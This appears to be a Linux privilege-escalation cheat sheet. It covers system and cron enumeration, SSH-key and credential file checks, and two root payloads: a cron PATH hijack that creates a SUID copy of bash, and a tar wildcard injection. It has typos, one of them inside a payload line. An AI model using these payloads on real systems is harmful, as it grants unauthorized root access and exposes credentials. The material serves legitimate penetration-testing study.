 # Linux Privilege Escalation Cheat Sheet
## Kernel Exploit
### Kernel Exploit Enumeration
#### Check System Information

```bash
hostname
```
```bash
uname -a
```
```bash
cat /etc/lsb-release
```
```bash
cat /proc/version
```
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
```bash
lscpu
```
#### Check Running Process Information
```bash
ps aux
```
```bash
ps aux | grep root
```
### Kernel Exploitation Process
  1. Google for Exploits against the OS and Kernel Version 
  2. Download, compile, and run it against the target if it exists
  3. Try something else if it does not exist.

## Escalation via Scheduled Tasks
### Check writeable Files and Directories
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
Pay particulalar attention to the following locations
  * /etc/init.d
  * /etc/cron*
  * /etc/crontab
  * /etc/cron.allow
  * /etc/cron.d 
  * /etc/cron.deny
  * /etc/cron.daily
  * /etc/cron.hourly
  * /etc/cron.monthly
  * /etc/cron.weekly
  * /etc/sudoers
  * /etc/exports
  * /etc/anacrontab
  * /var/spool/cron
  * /var/spool/cron/crontabs/root

### Enumerate Scheduled Tasks By checking the scheduled tasks
```bash
crontab -l
```
```bash
ls -lah /var/spool/cron
```
```bash
ls -lah /etc/cron*
```
```bash
cat /etc/at.allow
```
```bash
cat /etc/at.deny
```
```bash
systemctl list-timers --all
```
### Escalation via Cron Paths
  1. Check the PATH= Variable.
  2. Check what files are being run.
  3. Check if the file exists in the file path from left to right.
      * If it does not exist, check if you can write the file


           i. Create The File With:
           
            echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <path>/<file>
            chmod +x <path><file>
        
           ii. Escalate Privilege
         
            /tmp/bash

      * If the file exists before you find a writeable location, try something else.

### Escalation via Wildcards
If a command accepts wildcards as an argument and it is present in the crontab or cronjob do the following:
1. Research the executable
2. Create files where the name of the file if fed as part of the argument
3. The executable will interpret the name of the file as part of the command
4. Profit

Tar is a good example of this with the payloads
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > root.sh
chmod +x root.sh
```
```bash
--checkpoint=1
--checkpoint-action=exec=sh root,sh
```

## Check OS version
## Check Kernel Version

## List current running processes
Look for processes running as root. A misconfigured or vulnerable running as run can be an easy win.
ps aux | grep root
List current processes
ps au

## List the contents of the Home Directory
 
 ls /home
 
## List the contents of a users home directory
 
 ls -lah /home/<user>

## Check and retrieve the content of the SSH Directory

  These can be used to access other systems within the environment
  ls -lah /home/<user>/.ssh
  
## Check the Bash HIstory
  history
  
## List a users sudo privileges
  sudo -l
  
## Check the content of /etc/passwd
  cat /etc/passwd
  
## Check the Content of /etc/cron*
  ls /etc/cron.*
  cat /etc/cron*/<cronjob>
  
## kust File Systems and Additional Drives
  lsblk
  
## Find Writeable Directories
  find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null

## Find writeable files
  find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
  
#
